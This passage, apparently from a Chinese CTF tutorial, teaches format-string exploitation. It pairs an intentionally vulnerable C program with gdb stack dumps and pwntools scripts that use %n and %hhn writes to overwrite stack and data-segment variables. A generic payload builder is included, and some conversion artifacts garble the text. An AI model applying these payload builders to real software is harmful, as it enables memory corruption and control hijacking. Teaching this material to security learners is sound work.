    我们不能直接在命令行输入:raw-latex:`\x`0c:raw-latex:`\xa`0:raw-latex:`\x`04:raw-latex:`\x`08%4$s这是因为虽然前面的确实是printf@got的地址，但是，scanf函数并不会将其识别为对应的字符串，而是会将,x,0,c分别作为一个字符进行读入。下面就是错误的例子。

    .. code:: shell

        0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10   ← $esp
        0xffffcd00│+0x04: 0xffffcd10  →  "\x0c\xa0\x04\x08%4$s"
        0xffffcd04│+0x08: 0xffffcd10  →  "\x0c\xa0\x04\x08%4$s"
        0xffffcd08│+0x0c: 0x000000c2
        0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
        0xffffcd10│+0x14: "\x0c\xa0\x04\x08%4$s"   ← $eax
        0xffffcd14│+0x18: "\xa0\x04\x08%4$s"
        0xffffcd18│+0x1c: "\x04\x08%4$s"
        ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
        [#0] 0xf7e44670 → Name: __printf(format=0xffffcd10 "\\x0c\\xa0\\x04\\x08%4$s")
        [#1] 0x80484ce → Name: main()
        ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
        gef➤  x/x 0xffffcd10
        0xffffcd10:   0x6330785c

覆盖内存
--------

上面，我们已经展示了如何利用格式化字符串来泄露栈内存以及任意地址内存，那么我们有没有可能修改栈上变量的值呢，甚至修改任意地址变量的内存呢?答案是可行的，只要变量对应的地址可写，我们就可以利用格式化字符串来修改其对应的数值。这里我们可以想一下格式化字符串中的类型

::

    %n,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。

通过这个类型参数，再加上一些小技巧，我们就可以达到我们的目的，这里仍然分为两部分，一部分为覆盖栈上的变量，第二部分为覆盖指定地址的变量。

这里我们给出如下的程序来介绍相应的部分。

.. code:: c

    ##include <stdio.h>
    int a = 123, b = 456;
    int main() {
      int c = 789;
      char s[100];
      printf("%p\n", &c);
      scanf("%s", s);
      printf(s);
      if (c == 16) {
        puts("modified c.");
      } else if (a == 2) {
        puts("modified a for a small number.");
      } else if (b == 0x12345678) {
        puts("modified b for a big number!");
      }
      return 0;
    }

makefile在对应的文件夹中。而无论是覆盖哪个地址的变量，我们基本上都是构造类似如下的payload

.. code:: text

    ...[overwrite addr]....%[overwrite offset]$n

其中...表示我们的填充内容，overwrite addr 表示我们所要覆盖的地址，overwrite offset地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。所以一般来说，也是如下步骤

-  确定覆盖地址
-  确定相对偏移
-  进行覆盖

覆盖栈内存
~~~~~~~~~~

确定覆盖地址
^^^^^^^^^^^^

首先，我们自然是来想办法知道栈变量c的地址。由于目前几乎上所有的程序都开启了aslr保护，所以栈的地址一直在变，所以我们这里故意输出了c变量的地址。

确定相对偏移
^^^^^^^^^^^^

其次，我们来确定一下存储格式化字符串的地址是printf将要输出的第几个参数()。 这里我们通过之前的泄露栈变量数值的方法来进行操作。通过调试

.. code:: shell

     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcd0c', 'l8']
    8
    0xffffcd0c│+0x00: 0x080484d7  →  <main+76> add esp, 0x10     ← $esp
    0xffffcd10│+0x04: 0xffffcd28  →  "%d%d"
    0xffffcd14│+0x08: 0xffffcd8c  →  0x00000315
    0xffffcd18│+0x0c: 0x000000c2
    0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd20│+0x14: 0xffffcd4e  →  0xffff0000  →  0x00000000
    0xffffcd24│+0x18: 0xffffce4c  →  0xffffd07a  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
    0xffffcd28│+0x1c: "%d%d"     ← $eax

我们可以发现在0xffffcd28处存储着变量c的数值。继而，我们再确定格式化字符串'%d%d'的地址0xffffcd28相对于printf函数的格式化字符串参数0xffffcd10的偏移为0x18，即格式化字符串相当于printf函数的第7个参数，相当于格式化字符串的第6个参数。

进行覆盖
^^^^^^^^

这样，第6个参数处的值就是存储变量c的地址，我们便可以利用%n的特征来修改c的值。payload如下

.. code:: text

    [addr of c]%012d%6$n

addr of c 的长度为4，故而我们得再输入12个字符才可以达到16个字符，以便于来修改c的值为16。

具体脚本如下

.. code:: python

    def forc():
        sh = process('./overwrite')
        c_addr = int(sh.recvuntil('\n', drop=True), 16)
        print hex(c_addr)
        payload = p32(c_addr) + '%012d' + '%6$n'
        print payload
        #gdb.attach(sh)
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()

    forc()

结果如下

.. code:: shell

    ➜  overwrite git:(master) ✗ python exploit.py
    [+] Starting local process './overwrite': pid 74806
    0xfffd8cdc
    ܌��%012d%6$n
    ܌��-00000160648modified c.

覆盖任意地址内存
~~~~~~~~~~~~~~~~

覆盖小数字
^^^^^^^^^^

首先，我们来考虑一下如何修改data段的变量为一个较小的数字，比如说，\ **小于机器字长的数字**\ 。这里以2为例。可能会觉得这其实没有什么区别，可仔细一想，真的没有么？如果我们还是将要覆盖的地址放在最前面，那么将直接占用机器字长个(4或8)字节。显然，无论之后如何输出，都只会比4大。

    获取我们可以使用整形溢出来修改对应的地址的值，但是这样将面临着我们得一次输出大量的内容。而这，一般情况下，基本都不会攻击成功。

那么我们应该怎么做呢？再仔细想一下，我们有必要将所要覆盖的变量的地址放在字符串的最前面么？似乎没有，我们当时只是为了寻找偏移，所以才把tag放在字符串的最前面，如果我们把tag放在中间，其实也是无妨的。类似的，我们把地址放在中间，只要能够找到对应的偏移，其照样也可以得到对应的数值。前面已经说了我们的格式化字符串的为第6个参数。由于我们想要把2写到对应的地址处，故而格式化字符串的前面的字节必须是

.. code:: text

    aa%k$n

此时对应的存储的格式化字符串已经占据了6个字符的位置，如果我们再添加两个字符aa，那么其实aa%k就是第6个参数，$naa其实就是第7个参数，后面我们如果跟上我们要覆盖的地址，那就是第8个参数，所以如果我们这里设置k为8，其实就可以覆盖了。

利用ida可以得到a的地址为0x0804A024

.. code:: asm

    .data:0804A024                 public a
    .data:0804A024 a               dd 7Bh  

故而我们可以构造如下的利用代码

.. code:: python

    def fora():
        sh = process('./overwrite')
        a_addr = 0x0804A024
        payload = 'aa%8$naa' + p32(a_addr)
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()

对应的结果如下

.. code:: shell

    ➜  overwrite git:(master) ✗ python exploit.py
    [+] Starting local process './overwrite': pid 76508
    [*] Process './overwrite' stopped with exit code 0 (pid 76508)
    0xffc1729c
    aaaa$\xa0\x0modified a for a small number.

其实，这里我们需要掌握的小技巧就是，我们没有必要必须把地址放在最前面，放在那里都可以，只要我们可以找到其对应的偏移即可。

覆盖大数字
^^^^^^^^^^

上面介绍了覆盖小数字，这里我们就少覆盖大数字了。上面我们也说了，我们可以选择直接一次性输出大数字个字节来进行覆盖，但是这样基本也不会成功，因为太长了。而且即使成功，我们一次性等待的时间也太长了，那么有没有什么比较好的方式呢？自然是有了。

不过在介绍之前，我们得先再简单了解一下，变量在内存中的存储格式。首先，所有的变量在内存中都是以字节进行存储的。此外，变量一般的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678在内存中由低地址到高地址依次为:raw-latex:`\x`78:raw-latex:`\x`56:raw-latex:`\x`34:raw-latex:`\x`12。再者，我们可以回忆一下格式化字符串里面的标志，可以发现有这么两个标志

.. code:: text

    hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
    h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。

所以说，我们可以利用%hhn向某个地址写入单字节，利用%hn向某个地址写入双字节。这里，我们以单字节为例。

首先，我们还是要确定的是要覆盖的地址为多少，利用ida看一下，可以发现地址为0x0804A028。

.. code:: text

    .data:0804A028                 public b
    .data:0804A028 b               dd 1C8h                 ; DATA XREF: main:loc_8048510r

即我们希望将按照如下方式进行覆盖，前面为覆盖地址，后面为覆盖内容。

.. code:: text

    0x0804A028 \x78
    0x0804A029 \x56
    0x0804A02a \x34
    0x0804A02b \x12

首先，由于我们的字符串的偏移为6，所以我们可以确定我们的payload基本是这个样子的

.. code:: text

    p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'

我们可以依次进行计算。这里给出一个基本的构造，如下

.. code:: python

    def fmt(prev, word, index):
        if prev < word:
            result = word - prev
            fmtstr = "%" + str(result) + "c"
        elif prev == word:
            result = 0
        else:
            result = 256 + word - prev
            fmtstr = "%" + str(result) + "c"
        fmtstr += "%" + str(index) + "$hhn"
        return fmtstr


    def fmt_str(offset, size, addr, target):
        payload = ""
        for i in range(4):
            if size == 4:
                payload += p32(addr + i)
            else:
                payload += p64(addr + i)
        prev = len(payload)
        for i in range(4):
            payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
            prev = (target >> i * 8) & 0xff
        return payload
    payload = fmt_str(6,4,0x0804A028,0x12345678)

其中每个参数的含义基本如下

-  offset表示要覆盖的地址最初的偏移
-  size表示机器字长
-  addr表示将要覆盖的地址。
-  target表示我们要覆盖为的目的变量值。

相应的exploit如下

.. code:: python

    def forb():
        sh = process('./overwrite')
        payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
        print payload
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()

结果如下

.. code:: python

    ➜  overwrite git:(master) ✗ python exploit.py
    [+] Starting local process './overwrite': pid 78547
    (\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0%104c%6$hhn%222c%7$hhn%222c%8$hhn%222c%9$hhn
    [*] Process './overwrite' stopped with exit code 0 (pid 78547)
    0xfff6f9bc
    (\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0                                                                                                       X                                                                                                                                                                                                                             �                                                                                                                                                                                                                             \xbb                                                                                                                                                                                                                             ~modified b for a big number!

当然，我们也可以利用%n分别对每个地址进行写入，也可以得到对应的答案，但是由于我们写入的变量都只会影响由其开始的四个字节，所以最后一个变量写完之后，我们可能会修改之后的三个字节，如果这三个字节比较重要的话，程序就有可能因此崩溃。而采用%hhn则不会有这样的问题，因为这样只会修改相应地址的一个字节。
